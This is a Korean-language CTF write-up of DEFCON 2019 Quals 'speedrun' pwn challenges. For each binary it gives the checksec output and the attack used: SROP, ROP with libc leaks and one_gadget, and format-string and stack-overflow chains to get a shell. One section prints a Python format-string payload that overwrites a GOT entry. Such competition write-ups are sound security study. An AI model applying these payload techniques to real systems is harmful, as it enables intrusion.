 ```yaml
---
layout: post
title: [DEFCON 2019 Quals] speedrun
comments: true
excerpt_separator: <!--more-->
tags:
  - Write-up
  - CTF
  - Pwn
  - MyriaBreak
---
```


[Speedrun Exploit code - github](https://github.com/wotmd/CTF_Exploit/tree/master/DEFCON_CTF_2019)

## speedrun-001
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
1. stage 1. Write "/bin/sh\x00" in the bss area`
2. stage 2. execve("/bin/sh", NULL, NULL);`
3. get shell

`SROP` 문제입니다. "/bin/sh"를 read를 이용해 bss영역에 쓰고
execve를 syscall하여 shell을 획득합니다.
[attack_speedrun001.py](https://github.com/wotmd/CTF_Exploit/blob/master/DEFCON_CTF_2019/speedrun001/attack_speedrun001.py)

## speedrun-002
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
이번엔 `ROP`입니다. `puts`를 이용해서 puts나 read의 함수주소를 `leak`하고, `onegadget`을 이용하여 바로 `exploit`해줬습니다.

[attack_speedrun002.py](https://github.com/wotmd/CTF_Exploit/blob/master/DEFCON_CTF_2019/speedrun002/attack_speedrun002.py)


## speedrun-004
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
`speedrun001`과 비슷합니다. `srop`를 사용합니다.
257바이트까지 입력할 수있는데 1바이트 오버플로우가 나서 rbp의 하위 1바이트를 덮을 수 있습니다.
`fake ebp -> ret sled -> srop` 순서로 공격하면됩니다.
`rbp`의 하위 1바이트를 `\x00`으로 하고 `ret`가젯을 충분히 넣어두면 알아서 `srop`에 해당하는 부분(shellcode)으로 갈 것입니다.

[attack_speedrun004.py](https://github.com/wotmd/CTF_Exploit/blob/master/DEFCON_CTF_2019/speedrun004/attack_speedrun004.py)


## speedrun-005
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
`#포맷스트링버그` `#FSB`

너무 멍청하게 풀어서 대회 당시에 4시간이나 삽질을 한 문제이다. `printf(&buf)`에서 `FSB`가 터지는데, printf로 출력할 때 `\x00`을 만나면 거기까지만 출력해준다. 그런데 여기서 멍청하게 생각을 못한게 어짜피 read로 읽어서 스택에는 데이터가 들어간다는것을 잊고있었다.(아오)
그래서 그냥 스택에 `got`를 적당한것 puts GOT를 넣고 다시 `FSB`를 읽으켜서 `GOT`를 원샷으로 덮어주면 간단하다. 이걸 못맞추다니;;;
근데 끝나고 풀어보려고하니까 데프콘서버쪽에 바이너리가 바뀌어서 익스가 안됨 ㅡㅡ; 서버쪽에는 puts GOT가 0x601020이던데, 뭔일인지...

참고로 `FSB` payload는 pwntool의 fmtstr_payload를 쓰면 빠르게 할 수 있다. 물론 이 함수가 조금 멍청해서 target_address를 payload앞에 집어넣어서 64bit환경일 경우 printf에서 `\x00`으로 진작에 끊겨버리므로 아래와 같은 트릭을 써서 따로 계산해주는게 낫다.

```python
# make fsb payload
context.clear(arch = 'amd64')
fsb_payload = fmtstr_payload(30, writes={print_got:0x40069D}, numbwritten=(-64+24), write_size='byte')

# this function create stupid string. start payload null(\x00)
# null(\x00) is string end, printf is end. so addresses need to go to the payload end
# so,  numbwritten=(-64+24) is alreay payload(24) + got_address(-8*8=-64)
fsb_payload = fsb_payload[64:]			

# leak _IO_stdfile_1_lock
# stage 1. puts GOT overwrite FSB vuln function
payload = "%122$16lx" 		# start offset 6
payload += "A"*8
payload += fsb_payload
payload += ((8*24)-len(payload))*"A"	# padding 30-6 offset (target_offset - strat_offset)
payload += p64(print_got)
payload += p64(print_got + 1)
payload += p64(print_got + 2)
payload += p64(print_got + 3)
payload += p64(print_got + 4)
payload += p64(print_got + 5)
payload += p64(print_got + 6)
payload += p64(print_got + 6)
payload += p64(print_got + 7)
```

대략 설명하면 `30`오프셋부터 `print_got`가 나온다고보고 numbwritten은 기존 페이로드에 먼저쓰인 `16+8`바이트에 쓸모없는 `64`를 뺀 값을 넣고, `byte`단위의 `FSB` payload이므로 8개의 address를 맨뒤에 넣어준다. 중간에 중요한 fsb다음에는 `30`오프셋까지 패딩해주면된다.


[attack_speedrun005.py](https://github.com/wotmd/CTF_Exploit/blob/master/DEFCON_CTF_2019/speedrun005/attack_speedrun005.py)


## speedrun-009
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```
모든 보호기법이 다 걸려있습니다.
하지만 그 만큼 문제 자체도 취약점이 많습니다.
문제를 실행하면 1, 2, 3의 선택지가 주어지는데.
`1`번은 `BOF`가 발생하고 `2`번은 `FSB`가 일어납니다.

`FSB`를 이용해 `Canary`, `Libc Address`, `PIE address`를 `leak`할 수 있고, 이제 `BOF`를 이용해서 `onegadget`을 사용하면 쉽습니다.

[attack_speedrun001.py](https://github.com/wotmd/CTF_Exploit/blob/master/DEFCON_CTF_2019/speedrun009/attack_speedrun009.py)
